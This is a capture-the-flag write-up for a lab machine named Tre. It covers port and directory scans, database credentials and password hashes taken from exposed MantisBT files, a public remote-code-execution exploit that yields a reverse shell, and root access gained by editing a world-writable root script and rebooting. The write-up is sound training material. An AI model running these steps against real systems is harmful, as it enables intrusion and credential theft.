




## Tre: Writeup

Nmap reveals there are three ports open:

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHMd6tbRI/GrqZQaWx7CAYYD22gD6KeVl/sZdKJTi7duDnBz3FqxHZBdk4mMTvupWZDLyB9/sGkb99ptqZ1TZNn+86sWvQTFR7vV+9PAQGIDs82Jta/NO9XORx3wkNVunxCaw9Iwf9AxlbY6Vc1Ot6ydEMUHo1Ha1G1i+9h5kh/7InJRF6HZgb0zmbV4n2lWWgye0dR5bLKjt/5QcKGFdv40fOIRv2/jWv/DWHJRCxRS8bS5LBfFXgdWRvu+sxeQbdzDXqCow2FeMcHQiNuuVpnrmnFAg7GdrA36srgnXO2ZXEGijFZehfnINkdUnqGMYY4kb03nDDZPO29Ami/zQP
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDp3d72lJQsYyph4NbauO2u1nMokOTYcPPWH193ps7xb1euNLKSjJp1OtEwuhzu3lvUGxEQU3ISm9uj2g1sr0lk=
|   256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMuyBmHN7xrwj6KcGc2WT2NP0jIsGmRxMZkCBkr2SKrB
80/tcp   open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Tre
8082/tcp open  http    syn-ack nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Fuzz port 80:

```bash
$ ffuf -u http://192.168.216.84/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.84/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2971ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3975ms]
cms                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 42ms]
mantisbt                [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 39ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 44ms]
system                  [Status: 401, Size: 461, Words: 42, Lines: 15, Duration: 51ms]
```

`mantisbt` looks interesting. See what other directories are here:

Fuzzing `mantisbt`:

```bash
$ ffuf -u http://192.168.216.84/mantisbt/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.84/mantisbt/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3890ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3890ms]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 44ms]
api                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 43ms]
config                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 42ms]
core                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 49ms]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 40ms]
doc                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 43ms]
fonts                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 40ms]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 43ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 45ms]
lang                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 49ms]
library                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 47ms]
plugins                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 41ms]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 47ms]
vendor                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 48ms]
```

In `/mantisbt/config`, I find `a.txt`, which contains some possible creds:

```bash
<SNIP>
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
<SNIP>
```

I also find `data.sql`, which contains a password hash:

```bash
<SNIP>
INSERT INTO mantis_user_table(
                username, realname, email, password,
                date_created, last_visit, enabled, protected, access_level,
                login_count, lost_password_request_count, failed_login_count,
                cookie_string
        )
        VALUES (
                'administrator', '', 'root@localhost', '63a9f0ea7bb98050796b649e85481845',
                '2020-05-12 01:11:19', '2020-05-12 01:11:19', '1', '0', 90,
                3, 0, 0, '7ede40367f4c0d22fa257f67440a6db070ba2523653ecdd4ed4606cac99d82a8'
        );
<SNIP>
```
In [crackstation](https://crackstation.net/), I can see this decrypts to:

```bash
63a9f0ea7bb98050796b649e85481845    md5 root
```

This doesn't do anything.

Moving on to exploits:

```bash
$ searchsploit mantis bug
--------------------------------------------------- -------------------------
 Exploit Title                                                               |  Path
<SNIP>
Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)           | php/webapps/48818.py
```

This exploit looks interesting. Note that I haven't seen the version yet. So, if this exploit is successful, it will give me two things: tell me the service is vulnerable and give me a shell, which is win-win. I modify the exploit to tailor it to the target's IP and my attacker's IP:



Then run it and get a shell:



```bash
$ python2.7 48818.py
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Successfully hijacked account!
Successfully logged in!
Triggering reverse shell
Cleaning up
Deleting the dot_tool config.
Deleting the relationship_graph_enable config.
Successfully cleaned up


www-data@tre:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 11  2020 .
drwxr-xr-x 18 root root 4096 Jul  7  2020 ..
drwxr-xr-x  2 tre  tre  4096 Aug 23  2020 tre
www-data@tre:/home$ cd tre
www-data@tre:/home/tre$ ls -la
total 24
drwxr-xr-x 2 tre  tre  4096 Aug 23  2020 .
drwxr-xr-x 3 root root 4096 May 11  2020 ..
-rw-r--r-- 1 tre  tre   220 May 11  2020 .bash_logout
-rw-r--r-- 1 tre  tre  3526 May 11  2020 .bashrc
-rw-r--r-- 1 tre  tre   807 May 11  2020 .profile
-rw-r--r-- 1 tre  tre    33 Mar  9 11:10 local.txt
www-data@tre:/home/tre$ cat local.txt
9b918b549d7b28ad2d5e7a51b0f5f522
www-data@tre:/home/tre$ whoami
www-data
www-data@tre:/home/tre$ hostname
tre
www-data@tre:/home/tre$ hostname -I
192.168.216.84
```



Check what ports are open on this system:

```bash
www-data@tre:/home/tre$ ss -tulpen
Netid   State    Recv-Q   Send-Q     Local Address:Port      Peer Address:Port                                                                               
udp     UNCONN   0        0                0.0.0.0:33571          0.0.0.0:*      uid:101 ino:40110 sk:1 <->                                                  
tcp     LISTEN   0        80             127.0.0.1:3306           0.0.0.0:*      uid:106 ino:16381 sk:2 <->                                                  
tcp     LISTEN   0        128              0.0.0.0:8082           0.0.0.0:*      users:(("nginx",pid=625,fd=6)) ino:15438 sk:3 <->                           
tcp     LISTEN   0        128              0.0.0.0:22             0.0.0.0:*      ino:14866 sk:4 <->                                                          
tcp     LISTEN   0        128                    *:80                   *:*      ino:15302 sk:5 v6only:0 <->                                                 
tcp     LISTEN   0        128                 [::]:8082              [::]:*      users:(("nginx",pid=625,fd=7)) ino:15439 sk:6 v6only:1 <->                  
tcp     LISTEN   0        128                 [::]:22                [::]:*      ino:14877 sk:7 v6only:1 <-> 
```

Now I'll test out the MySQL creds I found earlier. They work:

```bash
www-data@tre:/var/www/html/system/config$ mysql -u mantissuser -p
Enter password: password@123AS

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 86
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show datashow databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mantis             |
+--------------------+
2 rows in set (0.000 sec)
```

I'll check out what's in the `mantis` database and look for usernames and passwords:

```bash
MariaDB [(none)]> useuse mantis;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mantis]> shoshow tables;
+-----------------------------------+
| Tables_in_mantis                  |
+-----------------------------------+
| mantis_bug_file_table             |
| mantis_bug_history_table          |
| mantis_bug_monitor_table          |
| mantis_bug_relationship_table     |
| mantis_bug_revision_table         |
| mantis_bug_table                  |
| mantis_bug_tag_table              |
| mantis_bug_text_table             |
| mantis_bugnote_table              |
| mantis_bugnote_text_table         |
| mantis_category_table             |
| mantis_config_table               |
| mantis_custom_field_project_table |
| mantis_custom_field_string_table  |
| mantis_custom_field_table         |
| mantis_email_table                |
| mantis_filters_table              |
| mantis_news_table                 |
| mantis_plugin_table               |
| mantis_project_file_table         |
| mantis_project_hierarchy_table    |
| mantis_project_table              |
| mantis_project_user_list_table    |
| mantis_project_version_table      |
| mantis_sponsorship_table          |
| mantis_tag_table                  |
| mantis_tokens_table               |
| mantis_user_pref_table            |
| mantis_user_print_pref_table      |
| mantis_user_profile_table         |
| mantis_user_table                 |


MariaDB [mantis]> selselect username,realname,password from mantis_user_table;
+---------------+---------------+----------------------------------+
| username      | realname      | password                         |
+---------------+---------------+----------------------------------+
| administrator | administrator | 5f4dcc3b5aa765d61d8327deb882cf99 |
| tre           | Tr3@123456A!  | 64c4685f8da5c2225de7890c1bad0d7f |
+---------------+---------------+----------------------------------+
```

That `realname` looks suspicious. I'll check to see if it's an ssh password. It is:

```bash
$ ssh tre@192.168.216.84
The authenticity of host '192.168.216.84 (192.168.216.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.216.84' (ED25519) to the list of known hosts.
tre@192.168.216.84's password:
Permission denied, please try again.
tre@192.168.216.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Check `sudo` privileges:

```bash
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

At this point, I ran linpeas and found that the sudo version appears to be vulnerable based on its version, 1.8.27. However, I was unable to get [this](https://www.exploit-db.com/exploits/47502) to work.

There were no interesting SUIDS, so I checked what was running with pspy and found this:

```bash
2023/03/09 12:08:38 CMD: UID=0    PID=22738  | /bin/bash /usr/bin/check-system
2023/03/09 12:08:39 CMD: UID=0    PID=22739  | /bin/bash /usr/bin/check-system
2023/03/09 12:08:40 CMD: UID=0    PID=22740  | /bin/bash /usr/bin/check-system
2023/03/09 12:08:41 CMD: UID=0    PID=22741  | /bin/bash /usr/bin/check-system
2023/03/09 12:08:42 CMD: UID=0    PID=22742  | /bin/bash /usr/bin/check-system
```

`check-system` runs every second as root, which is promising. Check my file permissions on it:

```bash
tre@tre:/tmp$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ file /usr/bin/check-system
/usr/bin/check-system: ASCII text
```

I can write to it. Let's see its contents:

```bash
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

Alright, it's a simple script. What I did was give it a simple `python3` reverse shell to execute. Given that the script is running every second, I thought I wouldn't have to wait long. But nothing happened. Doubtful of the reverse shell, I then set the sticky bit to bash and checked on its status. Still, no changes. Finally, I used the `sudo` privilege to reboot the machine. When it came back online, I had a shell as root:

```bash
$ rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.216.84.
Ncat: Connection from 192.168.216.84:41286.
root@tre:/# whoami
whoami
root
root@tre:/# cd /rooit
cd /rooit
bash: cd: /rooit: No such file or directory
root@tre:/# cd root
cd root
root@tre:/root# whoami
whoami
root
root@tre:/root# id
id
uid=0(root) gid=0(root) groups=0(root)
root@tre:/root# cat proof.txt
cat proof.txt
27fb26a15cc8e21c46fe86cdfe40271d
root@tre:/root# cat /home/tre/local.txt
cat /home/tre/local.txt
9b918b549d7b28ad2d5e7a51b0f5f522
root@tre:/root# hostname -I
hostname -I
192.168.216.84
```


